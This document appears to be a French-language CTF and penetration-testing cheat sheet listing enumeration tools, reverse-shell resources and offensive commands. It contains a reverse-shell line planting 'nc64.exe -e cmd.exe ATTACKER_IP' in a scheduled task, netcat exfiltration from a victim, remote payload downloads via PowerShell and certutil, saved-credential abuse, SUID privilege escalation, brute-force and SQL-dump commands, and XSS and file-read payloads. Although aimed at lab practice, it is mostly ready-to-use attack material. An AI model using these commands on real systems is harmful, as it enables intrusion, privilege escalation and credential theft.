 ```
===========================================

_______________________________ /\ 
\_   ___ \__    ___/\_   _____/ )/______
/    \  \/ |    |    |    __)    /  ___/
\     \____|    |    |     \     \___ \ 
 \______  /|____|    \___  /    /____  >
        \/               \/          \/ 

============================================
```
# Énumeration

linPEAS : https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS <br>
linEnum : https://github.com/rebootuser/LinEnum <br>
winPEAS : https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASbat (.bat) <br>

# Objectif Reverse shell !

Netcat for windows : https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip <br>
Hacker tools : https://addons.mozilla.org/en-US/firefox/addon/hacktools/ <br>
Reverse Shells : https://www.revshells.com/ <br>
Reverse shell php : https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php <br>

# Utiles

subdomains.txt : https://raw.githubusercontent.com/danTaler/WordLists/master/Subdomain.txt <br>
Bypass authentication : https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass <br>
PAYLOADSALLTHETHINGS : https://github.com/swisskyrepo/PayloadsAllTheThings (reverse shell, etc...) <br>
Binaries exploit : https://gtfobins.github.io/ <br>
PrivEscCheck (windows) : https://github.com/itm4n/PrivescCheck <br>
```
PS C:\> Set-ExecutionPolicy Bypass -Scope process -Force
PS C:\> . .\PrivescCheck.ps1
PS C:\> Invoke-PrivescCheck
```
wes.py (aussi pour windows): https://github.com/bitsadmin/wesng/blob/master/wes.py <br>
```
user@kali$ wes.py systeminfo.txt        
```
Windows Local PrivEsc : https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation

-------------------------------------------------------------------------------------------------------------------------------------------+
# Basiques !
```
[+] => INFO GATHERING           - sudo -l
[+] => SPAWN SHELL USING PYTHON - python3 -c 'import pty; pty.spawn("/bin/sh")'
[+] => SPAWN SHELL USING BASH   - bash -i
[+] => TRANSFER FILE VIA NETCAT - [victime] nc -nv <ip> 1337 < <file_to_transfer> | [attacker] nc -lnvp 1337 > <file_to_transfer>
```
-------------------------------------------------------------------------------------------------------------------------------------------+
# Linux
```
[CMD](JS)        => <iframe src=file:///etc/passwd></iframe>
[CMD](WordPress) => wpscan => ex (brute force mdp) wpscan --url 10.10.180.74/blog -U admin -P /usr/share/wordlists/rockyou.txt
[CMD](misconfig) => bash -p
[CMD](BINARIES)  => find / -user root -perm -4000 -exec ls -ldb {} \;
[CMD](GOBUSTER)  => gobuster dir -u <url> -w=/usr/share/wordlists/dirb.../<list> -b <status_code_to_exclude>
[CMD](NMAP/SMB)  => nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP  (SAMBA)
                    smbclient //<ip>/anonymous (-U pour un utilisateurs)
                    smbget -R smb://<ip>/anonymous
[CMD](FFUF)      => ffuf -c -w /usr/share/wordlists/subdomains.txt -u http://domain.com/ -H "Host: FUZZ.domain.com" -fc 301
[CMD](list)      => msfvenom -l payloads | grep windows | grep reverse | grep shell  (exemple)
[CMD](decrypt)   => john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  --format=<format>
[CMD](sql)       => sqlmap -r file.txt --dbms=mysql --dump | (après avoir copier une requête Burp dans un fichier txt)
[CMD](ftp)       => wget -m --no-passive ftp://anonymous:anonymous@<IP>  (download tout)
```
<br>
[?] Using "-p" on an SUID file will run it with the permission of the owner. Ex if root own a file and you run it (non-root) using "-p" you will run it with root perm
<br> 
<br>

# Windows

```
[RDP]            => xfreerdp /d:<domain> /u:'<user>' /p:'<password>' /v:<prefix>.<domain> /drive:.,kali-share +clipboard

[CMD](WIN)*PS*   => Invoke-WebRequest -Uri "http://<ip>:<port>/<file>" -Outfile <outfile>
[CMD](WIN)*PS*   => Expand-Archive <file.zip>
[CMD](WIN)*PS*   => type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt (ou %userprofile% avec CMD)
[CMD](WIN)*PS*   => cmdkey /list  #liste les creds sauvegardés
[CMD](WIN)*PS*   => runas /savecred /user:admin cmd.exe  #exécute l'action avec les credentials sauvegardés
[CMD](WIN)*PS*   => schtasks | schtasks /query /tn TASKVULNERABLE /fo list /v   #Planificateur de tâche
                    icacls c:\tasks\schtask.bat #Donne des infos sur les permissions planificateur de tâches
                    echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
                    schtasks /run /tn vulntask #Exécute la tâche direct

[CMD](WIN)*CMD*  => certutil.exe -urlcache -f http://<ip>:<port>/file.exe new_file.exe
```

# Some XSS Cheats
```
<script>document.querySelector('#page-title').textContent = 'New text'</script>
<img src=x onerror=alert('hello')>
```


-------------------------------------------------------------------------------------------------------------------------------------------+

